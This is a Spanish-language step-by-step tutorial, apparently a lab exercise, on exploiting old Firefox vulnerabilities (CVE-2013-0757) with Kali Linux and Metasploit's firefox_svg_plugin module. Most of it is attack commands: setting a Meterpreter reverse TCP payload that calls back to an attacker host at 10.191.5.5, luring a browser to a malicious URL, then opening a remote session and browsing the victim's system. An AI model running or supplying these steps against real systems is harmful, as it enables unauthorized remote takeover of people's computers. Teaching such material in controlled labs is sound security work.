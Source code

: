 
Gentoo Linux: CVE-2013-0757: Productos Mozilla: Múltiples vulnerabilidades

permite a los atacantes remotos ejecutar código JavaScript arbitrario con privilegios de cromo haciendo referencia a Object.prototype .__ proto__ en un documento HTML elaborado.


USN-1681-1: Firefox vulnerabilities

Múltiples vulnerabilidades no especificadas en el motor del navegador en Mozilla Firefox antes de 18.0, Thunderbird antes de 17.0.2 y SeaMonkey antes de 2.15 permiten a los atacantes remotos causar una denegación de servicio (corrupción de memoria y bloqueo de la aplicación) o posiblemente ejecutar código arbitrario a través de vectores desconocidos.



•	Sistema Operativo: 

    firefox
    java
    linux
    osx
    solaris
    windows



•	Software: 


Sistema operativo:

Kali Linux: Diseñada principalmente para la auditoría y seguridad informática en general
Herramientas: Metasploit: proporciona información acerca de vulnerabilidades de seguridad

Modulo: exploit/multi/browser/firefox_svg_plugin


•	Instructivo:

Requisitos:


PASO A PASO

1)	msf > use exploit/multi/browser/firefox_svg_plugin
2)	msf exploit(firefox_svg_plugin) > show options
3)	msf exploit(firefox_svg_plugin) > show targets
4)	msf exploit(firefox_svg_plugin) > set target 1
5)	msf exploit(firefox_svg_plugin) > set payload windows
6)	msf exploit(firefox_svg_plugin) > set payload windows/meterpreter/reverse tcp
7)	msf exploit(firefox_svg_plugin) >set LHOST 10.191.5.5
8)	msf exploit(firefox_svg_plugin) > exploit
9)	copier http://10.191.5.5:8080/0MotqBs
10)	ejecutar en el browser http://10.191.5.5:8080/0MotqBs
11)	msf exploit(firefox_svg_plugin) >  informacion plugin
12)	msf exploit(firefox_svg_plugin) > sessions –i 1
13)	Meterpreter  > sysinfo
14)	Meterpreter  > cd
15)	Meterpreter  > ls
16)	Ejecucion Ipv4 : 10.191.5.6
